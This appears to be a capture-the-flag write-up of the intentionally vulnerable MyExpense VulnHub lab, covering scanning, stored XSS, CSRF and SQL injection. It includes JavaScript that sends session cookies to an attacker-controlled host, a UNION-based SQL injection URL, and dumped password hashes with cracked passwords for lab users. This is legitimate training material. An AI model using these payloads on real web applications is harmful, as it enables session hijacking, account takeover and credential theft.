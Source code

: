 ```yaml
---
layout: single
title: MyExpense - VulnHub
excerpt: MyExpense is a deliberately vulnerable web application that allows you to train in detecting and exploiting different web vulnerabilities. Unlike a more traditional "challenge" application (which allows you to train on a single specific vulnerability), MyExpense contains a set of vulnerabilities you need to exploit to achieve the whole scenario.
date: 2024-07-04
classes: wide
header:
  teaser: /assets/images/vulnhub.png
  teaser_home_page: true
categories:
  - ctf
  - hackthebox
tags:
  - mysql
  - xss
  - xsrf
---
```

From description we have the credentials
samuel/fzghn4lw
# Scan
General scan
PORT      STATE SERVICE REASON
   7   │ 80/tcp    open  http    syn-ack ttl 64
   8   │ 38575/tcp open  unknown syn-ack ttl 64
   9   │ 53717/tcp open  unknown syn-ack ttl 64
  10   │ 54457/tcp open  unknown syn-ack ttl 64
  11   │ 59781/tcp open  unknown syn-ack ttl 64
# 80
## Focused scan
```
PORT      STATE SERVICE VERSION
   6   │ 80/tcp    open  http    Apache httpd 2.4.25 ((Debian))
   7   │ |_http-server-header: Apache/2.4.25 (Debian)
   8   │ |_http-title: Futura Business Informatique GROUPE - Conseil en ing\xC3\xA9nierie
   9   │ | http-robots.txt: 1 disallowed entry
  10   │ |_/admin/admin.php
  11   │ | http-cookie-flags:
  12   │ |   /:
  13   │ |     PHPSESSID:
  14   │ |_      httponly flag not set
  ```
## Checking `robots.txt`
```
User-agent: *
Disallow: /admin/admin.php
```

Fuzzing the page we just found `/admin` like above.

## /admin/admin.php
![](Pasted%20image%2020240703173824.png)
We found an admin panel.
We have more info about us.
`slamotte	Samuel	Lamotte	slamotte@futuraBI.fr	Collaborator	2019-12-03 17:08:09`
We don't have permissions to inactive our user
![](Pasted%20image%2020240703174158.png)

Trying to login using `slamotte` and `fzghn4lw`.
![](Pasted%20image%2020240703175002.png)

Create a new account.
And the button is disable, but we can inspect the html code.
![](Pasted%20image%2020240703175519.png)
And delete the disable part.
![](Pasted%20image%2020240703175631.png)
Now the button is enable and we can create the new account.
![](Pasted%20image%2020240703175654.png)
We are in the system with an inactive account.
![](Pasted%20image%2020240703175913.png)

Trying XSS creating a new test user with the fields. Don't forget able the button.
![](Pasted%20image%2020240703180410.png)
Check the admin panel and we have a XSS.
![](Pasted%20image%2020240703180550.png)
# XSS
To exploit this XSS we need the interaction of a some user, to check if some user is checking the admin panel.
Create a new user with this code on the two last fields.
```js
<script src="http://192.168.122.192/test.js"></script>
```
This code is trying to get the file `test.js` from our server, if someone check the admin panel, the code is executed and we can watch the request on our server.
Mount a server on the attacker machine.
```python
python -m http.server 80
```

## Get the cookie
now in the js file put
```js
var request = new XMLHttpRequest();
request.open('GET', 'http://attackerIP/?cookie=' + document.cookie);
request.send();
```
`PHPSESSID=0iap4q3kqsctljgp13vrcbi1f2`
`0gp9edhmbd1lnnjejhitk4mk65`
`h4a1tpdbhnfjss32mhup0v6d37`
`knjvvrlahr23emlepkqn800ac2`
We got some cookies, one of them is the admin account, but if use that cookie, we can't login, because the system admit just 1 login.

# XSRF
Activate account
Trying another way, if we try to activate the account we have.
![](Pasted%20image%2020240704171243.png)

Now we know that the admin is constantly visiting the admin panel, so we can set the XSS to the user make a request to the url above.
```js
var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.122.204/admin/admin.php?id=11&status=active');
request.send();
```
Now we start the python server again ans wait. After a while we can see that the admin make the request and our account should be activate.
![](Pasted%20image%2020240704171856.png)

After login in, in the expense reports, we see the report and now submit it.
![](Pasted%20image%2020240704172227.png)
Some has to approve our report, and we see in the profile settings that Manen RIviere is our Manager.
![](Pasted%20image%2020240704172450.png)
We supposs to Manon has an panel to approve our report, so we'll try to get the Manon cookie sending an js in the message field. Again listen on python server.
![](Screenshot_20240704_181923.png)
We have a few cookies, one of them is the Manager cookie.

![](Screenshot_20240704_182401.png)
Now validate the report. On the green button.

We need that the financial person approve the payment
in the rennes page we will try sqli.

# SQLi
We break the query adding this.
![](Screenshot_20240704_184024.png)
Now get the information from db
## DB names
information_schema,myexpense,mysql,performance_schema
## myexpense DB
expense,message,site,user
### User Table
`http://192.168.122.204/site.php?id=2%20union%20select%201,group_concat(column_name)%20FROM%20information_schema.columns%20WHERE%20table_name%20=%20%27user%27--%20-`

user_id,**username**,**password**,role,lastname,firstname,site_id.....e,max_statement_time

## Username and password
**afoulon:124922b5d61dd31177ec83719ef8110a**
**pbaudouin:64202ddd5fdea4cc5c2f856efef36e1a**
rlefrancois:ef0dafa5f531b54bf1f09592df1cd110
mriviere:d0eeb03c6cc5f98a3ca293c1cbf073fc
mnguyen:f7111a83d50584e3f91d85c3db710708
pgervais:2ba907839d9b2d94be46aa27cec150e5
placombe:04d1634c2bfffa62386da699bb79f191
triou:6c26031f0e0859a5716a27d2902585c7
broy:b2d2e1b2e6f4e3d5fe0ae80898f5db27
brenaud:2204079caddd265cedb20d661e35ddc9
slamotte:21989af1d818ad73741dfdbef642b28f
nthomas:a085d095e552db5d0ea9c455b4e99a30
vhoffmann:ba79ca77fe7b216c3e32b37824a20ef3
rmasson:ebfc0985501fee33b9ff2f2734011882
test:912b7bc95fb9e6885a4685746433f39a
test2:088e03d5b2537942a15e4842d27eb49d

Checking the admin panel again to see all accounts, we are interested on the `Finalcial approvers` accounts and we will try to crack the passwords of them.

`afoulon	Aristide	Foulon	afoulon@futuraBI.fr	Financial approver	2019-12-03 17:08:09`
`pbaudouin	Paul	Baudouin	pbaudouin@futuraBI.fr	Financial approver	2019-12-03 17:08:09`

# Cracking hashes
Checking hashes.com

afoulon:wq6hblv3
pbaudouin:HackMe

Login in like `afoulon` and he don't have our report. But `pbaudouin` has it.
![](Screenshot_20240704_205514.png)

# Flag
Login as Samuel and get the flag.
![](Screenshot_20240704_205739.png)
